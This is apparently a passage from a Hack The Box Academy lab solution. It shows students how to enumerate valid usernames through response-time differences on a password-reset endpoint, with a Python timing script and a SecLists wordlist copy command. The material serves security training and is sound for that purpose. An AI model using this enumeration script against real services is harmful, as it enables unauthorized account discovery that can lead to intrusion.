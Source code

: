 The implementation of the `send_email` function is not provided, however, it suffices to know that invoking it introduces more processing time than just returning the generic response message, thus, students need to abuse this endpoint to enumerate valid usernames. First, students need to visit `/reset`, provide `htb-stdnt` as the username and intercept the request to send it to `Repeater`:

![[HTB Solutions/CWEE/z. images/ef933790c1ad954ca62c3e8fa2af4bd1_MD5.jpg]]

For valid usernames (e.g., `htb-stdnt`), the response time is approximately 0.165 seconds (165 milliseconds):

![[HTB Solutions/CWEE/z. images/f4f066e3fb6bf76b3e1ce8ff45e32c78_MD5.jpg]]

However, the response time for invalid usernames is approximately 0.006 seconds (6 milliseconds):

![[HTB Solutions/CWEE/z. images/761e83036964c1d77813dc170d460d80_MD5.jpg]]

Comparing the two approximate values, they ought to be correct/valid since, for valid usernames, an email is "sent", causing more computation (therefore requiring more processing time). In contrast, an exception is raised for invalid usernames, and no further computation occurs (therefore requiring less processing time). It is important to note that students might attain different response times due to network latency; however, the better the Internet connection is, the more accurate the response times will be.

Based on the numbers attained previously, students need to edit the script provided in the section to enumerate valid usernames. To attempt to avoid false positives due to network latency, the threshold will be increased to 0.2 seconds instead of 0.1:

Code: python

```python
import requests

URL = "http://STMIP:STMPO/reset"
WORDLIST = "./xato-net-10-million-usernames-dup.txt"
THRESHOLD_S = 0.2

with open(WORDLIST, 'r') as f:
    for username in f:
        username = username.strip()

        r = requests.post(URL, data={"username": username})
        
        if r.elapsed.total_seconds() > THRESHOLD_S:
            print(f"Valid Username found: {username}")
```

Before running the script, students need to copy over the wordlist `/opt/useful/SecLists/Usernames/xato-net-10-million-usernames-dup.txt` to the same directory of the script:

Code: shell

```shell
cp /opt/useful/SecLists/Usernames/xato-net-10-million-usernames-dup.txt ./
```

```shell
┌─[eu-academy-1]─[10.10.15.57]─[htb-ac-413848@htb-q54h2hb73d]─[~]
└──╼ [★]$ cp /opt/useful/SecLists/Usernames/xato-net-10-million-usernames-dup.txt ./
```

